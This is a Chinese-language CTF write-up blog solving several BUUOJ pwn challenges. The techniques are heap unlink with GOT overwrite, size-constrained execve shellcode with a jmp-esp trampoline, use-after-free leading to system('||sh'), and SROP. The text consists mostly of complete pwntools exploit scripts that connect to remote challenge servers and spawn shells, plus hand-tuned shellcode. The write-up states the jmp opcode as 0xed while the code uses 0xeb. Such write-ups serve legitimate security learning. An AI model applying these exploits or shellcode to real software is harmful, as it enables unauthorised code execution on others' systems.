


buu067-hitcon2014_stkof
简单分析发现程序中开了一个很大的数组在bss段中，可以申请很多很多堆块，然后在bss段保存它们的地址。这道题不能打印有效信息，但能够产生任意长度的堆溢出，因此考虑利用方式：unlink。
利用方式请见：我的unlink笔记
经过调试发现，unlink可以进行。

我们可以在此之后将bss段中的地址改成got表地址，然后将got表中free函数的地址改写为printf的plt地址，这样我们就可以实现任意地址读了。读取到libc地址然后将free.got改为system地址，释放一个存有’/bin/sh’的chunk即可。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
| from pwn import *
from LibcSearcher import *
context(arch='amd64', log_level='debug')
io = remote('node4.buuoj.cn', 27603)
elf = ELF('./pwn')
chunks = 0x602140
def add_chunk(size):
io.sendline(b'1')
io.sendline(str(size).encode())
def write_chunk(index, size, content):
io.sendline(b'2')
io.sendline(str(index).encode())
io.sendline(str(size).encode())
io.send(content)
def delete_chunk(index):
io.sendline(b'3')
io.sendline(str(index).encode())
def feedback(index):
io.sendline(b'4')
io.sendline(str(index).encode())
add_chunk(0x80)
io.recvuntil(b'OK\n')
add_chunk(0x80)
io.recvuntil(b'OK\n')
add_chunk(0x80)
io.recvuntil(b'OK\n')
add_chunk(0x80)
io.recvuntil(b'OK\n')
add_chunk(0x80)
io.recvuntil(b'OK\n')
payload = p64(0x10)
payload += p64(0x81)
payload += p64(chunks + 8*2 - 0x18)
payload += p64(chunks + 8*2 - 0x10)
payload += cyclic(0x60)
payload += p64(0x80)
payload += p64(0x90)
write_chunk(2, 0x90, payload)
io.recvuntil(b'OK\n')
delete_chunk(3)
io.recvuntil(b'OK\n')
write_chunk(2, 0x10, p64(0) + p64(elf.got['free']))
io.recvuntil(b'OK\n')
write_chunk(0, 0x8, p64(elf.plt['printf']))
io.recvuntil(b'OK\n')
write_chunk(2, 0x10, p64(0) + p64(elf.got['puts']))
io.recvuntil(b'OK\n')
delete_chunk(0)
puts = u64(io.recv(6) + b'\x00\x00')
print(hex(puts))
libc = LibcSearcher('puts', puts)
base = puts - libc.dump('puts')
sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')
write_chunk(2, 0x10, p64(0) + p64(elf.got['free']))
io.recvuntil(b'OK\n')
write_chunk(0, 0x8, p64(sys))
io.recvuntil(b'OK\n')
write_chunk(4, 0x7, b'/bin/sh')
delete_chunk(4)
io.interactive()
|
buu068-ciscn_2019_s_9
shellcode题，只能写49个字节。（注意fgets函数的特性是最后一个字节一定是零字节。）
我们使用shellcraft.sh()函数查看pwntools为我们生成的shellcode，发现编译成机器码一共有44个字节。注意我们写入的49个字节里面的第36~40个字节是返回地址，不能随意动。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
| /* execve(path='/bin///sh', argv=['sh'], envp=0) */
/* push b'/bin///sh\x00' */
push 0x68
push 0x732f2f2f
push 0x6e69622f
mov ebx, esp
/* push argument array ['sh\x00'] */
/* push 'sh\x00\x00' */
push 0x1010101
xor dword ptr [esp], 0x1016972
xor ecx, ecx
push ecx /* null terminate */
push 4
pop ecx
add ecx, esp
push ecx /* 'sh\x00' */
mov ecx, esp
xor edx, edx
/* call execve() */
push SYS_execve /* 0xb */
pop eax
|
上面就是shellcode的汇编代码。我们尝试缩短这段代码的长度。
由于本题中并没有对零字节做出输入的限制，因此我们可以简化下面这两行为push 0x6873
1
2
| push 0x1010101
xor dword ptr [esp], 0x1016972
|
简化之后，剩余部分的机器码长度为36字节，正好能够填充满返回地址之前的36字节。
而对于后面的9个字节，首先需要压低esp，防止shellcode被覆盖：sub esp, 0x100;，这条指令占6字节。还有3个字节足够我们进行一次短转移。
在asm函数中不允许使用诸如jmp short ptr 0x40;这样的指令，只能通过标号来写jmp指令。但是我们通过分析jmp指令的结构不难发现，jmp短转移指令占2字节，第1个字节固定为0xed，第二个字节为转移偏移，即距离本条指令的偏移位置。如在0x100000处有一条jmp 0x40指令，其跳转到的地址是：0x100042，因为这里是从这条指令的后面计算偏移的，也就是以0x100002为基准计算偏移。由此我们可以计算得到转移的偏移应该为-48，转为有符号8位二进制数为0xD0。因此我们的shellcode结构就是：前36字节为shellcode；37~40字节为返回地址（jmp esp的地址）；41~46字节为sub esp, 0x100;指令；47~48字节为jmp short ptr -48;指令，这样可以在esp减小之后立刻开始执行shellcode。我们的49个字节使用了48个字节。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
| from pwn import *
context(arch='i386', log_level='debug')
io = remote('node4.buuoj.cn', 28012)
elf = ELF('./pwn')
shellcode = 'push 0x68;' \
'push 0x732f2f2f;' \
'push 0x6e69622f;' \
'mov ebx, esp;' \
'push 0x6873;' \
'xor ecx, ecx;' \
'push ecx;' \
'push 4;' \
'pop ecx;' \
'add ecx, esp;' \
'mov ecx, esp;' \
'xor edx, edx;' \
'push SYS_execve;' \
'pop eax;' \
'int 0x80;' \
payload = asm(shellcode)
payload += p32(0x8048554)
payload += asm('sub esp, 0x100;')
payload += b'\xeb\xD0'
print(len(payload))
print(payload)
io.sendline(payload)
io.interactive()
|
buu069-pwnable_hacknote
常规堆排布，没有释放指针，可以利用UAF申请到一个chunk控制头，然后改写里面的指针从而在调用print功能的时候执行其他功能。

每一次申请都会申请上面的这个结构体和一个存放字符串的chunk。申请两个chunk大小为0x20的结构，然后释放，再申请一个chunk大小为0x8的结构就可以控制先前释放的一个结构的控制结构体（也就是上面的这个结构体）。print_func不动，把打印地址改为got表获取libc地址，然后释放重新分配，把print_func改成system地址，后面接上’||sh’来执行system(‘sh’)。（前面的部分是system地址肯定无法执行，加||使得能够执行后面的内容）
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
| from pwn import *
from LibcSearcher import *
context(arch='i386', log_level='debug')
io = remote('node4.buuoj.cn', 26342)
elf = ELF('./pwn')
def add(size, content):
io.sendlineafter(b'Your choice :', b'1')
io.sendlineafter(b'Note size :', str(size).encode())
io.sendafter(b'Content :', content)
def delete(index):
io.sendlineafter(b'Your choice :', b'2')
io.sendlineafter(b'Index :', str(index).encode())
def print(index):
io.sendlineafter(b'Your choice :', b'3')
io.sendlineafter(b'Index :', str(index).encode())
add(0x20, b'/bin/sh')
add(0x20, b'colin')
delete(0)
delete(1)
add(0x8, p32(0x804862B) + p32(elf.got['puts']))
print(0)
puts = u32(io.recv(4))
print(hex(puts))
libc = LibcSearcher('puts', puts)
base = puts - libc.dump('puts')
sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')\
delete(2)
add(0x8, p32(sys) + b'||sh')
print(0)
io.interactive()
|
buu070-picoctf_2018_shellcode
1
2
3
4
5
6
7
| from pwn import *
context(arch='i386', log_level='debug')
io = remote('node4.buuoj.cn', 27164)
elf = ELF('./pwn')
io.sendline(asm(shellcraft.sh()))
io.interactive()
|
buu071-ciscn_2019_es_7
一道SROP的题目，要熟悉脚本中SROP的构造方式。本题中栈的地址是经过试验得到的，后面能够泄露出一个栈地址，值为输入字符串起始地址+0x118，据此计算栈地址。
注意脚本中的flat方法用于将frame转换为一个个的字节，不能使用str函数，否则原本的1个字节’\x00’会被转换为4个字节’\x00’。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
| from pwn import *
context(arch='amd64', log_level='debug')
io = remote('node4.buuoj.cn', 27845)
elf = ELF('./pwn')
movrax_3B_ret = 0x4004e2
movrax_F_ret = 0x4004DA
syscall = 0x400517
payload = cyclic(0x10)
payload += p64(0x4004ED)
io.sendline(payload)
io.recv(0x20)
stack_addr = u64(io.recv(8)) - 0x118
print(hex(stack_addr))
payload = b'/bin/sh'.ljust(0x10, b'\x00')
payload += p64(movrax_F_ret)
payload += p64(syscall)
frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = stack_addr
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall
payload += flat(frame)
io.send(payload)
io.interactive()
|
buu072-jarvisoj_level5
同第36题，脚本都不用变。